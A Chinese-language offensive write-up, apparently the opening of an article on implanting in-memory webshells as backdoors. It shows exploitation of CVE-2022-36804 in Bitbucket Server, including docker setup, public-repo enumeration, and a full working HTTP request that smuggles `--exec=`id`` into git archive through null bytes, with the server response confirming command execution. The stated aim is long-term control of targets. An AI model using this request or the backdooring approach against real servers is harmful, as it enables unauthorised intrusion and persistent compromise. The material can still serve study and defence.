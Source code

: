 0x00 引言
=======

本文是实战中遇到的一个技术点。很多时候我们使用内存马都是反序列化漏洞利用后一条龙直接植入，如log4j时被广泛使用的JNDIExploit此类工具。但有时候我们也会遇到命令拼接等问题获取到的权限，此时仅仅有命令执行而非代码执行的权限。常规的jsp马、cc等手段均无法作为后门，植入内存马成为了我们的第一选择。内存马除了常规的webshell功能外，我们还可以利用内存马完成一些其他的事情。

0x01 CVE-2022-36804
===================

前期通过CVE-2022-36804获取命令执行权限，漏洞原理比较简单，具体可以看这篇文章<https://www.anquanke.com/post/id/280193>。

Bitbucket 是 Atlassian 公司提供的一个基于 web 的版本库托管服务，支持 Mercurial 和 Git 版本控制系统。支持私有化部署。该平台类似gitlab，是一个代码版本控制的平台，一般都是目标的it人员或管理员在使用。支持ldap认证及本地认证，获取到权限我们首先就想到驻留一个长期控制的后门。

通过docker安装环境：

docker pull atlassian/bitbucket-server:7.19.4-jdk11

启动该环境:

docker run -v /data/bitbucket:/var/atlassian/application-data/bitbucket --name="bitbucket" -d -p 7990:7990 -p 7999:7999 atlassian/bitbucket-server:7.19-jdk11

测试该漏洞需要目标存在public项目，需要获取到项目名和repo名。通过链接枚举公开项目:

example.com/repos?visibility=public

测试漏洞：

GET /rest/api/latest/projects/cfx/repos/lord/archive?format=zip&amp;path=bighax&amp;prefix=fusion/%00--remote=/%00--exec=%60id%60%00--prefix=/ HTTP/1.1  
Host: 127.0.0.1:7990  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Content-Length: 2

成功回显结果:

HTTP/1.1 500  
X-AREQUESTID: @1J1EWV1x490x54736x0  
X-ASEN: SEN-L18735288  
Cache-Control: no-cache, no-transform  
Vary: accept-encoding,x-auserid,cookie,x-ausername,accept-encoding  
Content-Type: application/json;charset=UTF-8  
Date: Tue, 04 Oct 2022 08:10:56 GMT  
Connection: close  
Content-Length: 380  
​  
{"errors":\[{"context":null,"message":"'/usr/bin/git archive --format=zip --prefix=fusion/\\u0000--remote=/\\u0000--exec=`id`\\u0000--prefix=/ -- 49f16ce1e8ad32a360c9db7a3a84a0b72a12c51f bighax' exited with code 128 saying: `id` '/': 1: uid=2003(bitbucket): not found\\nfatal: the remote end hung up unexpectedly","exceptionName":"com.atlassian.bitbucket.scm.CommandFailedException"}\]}
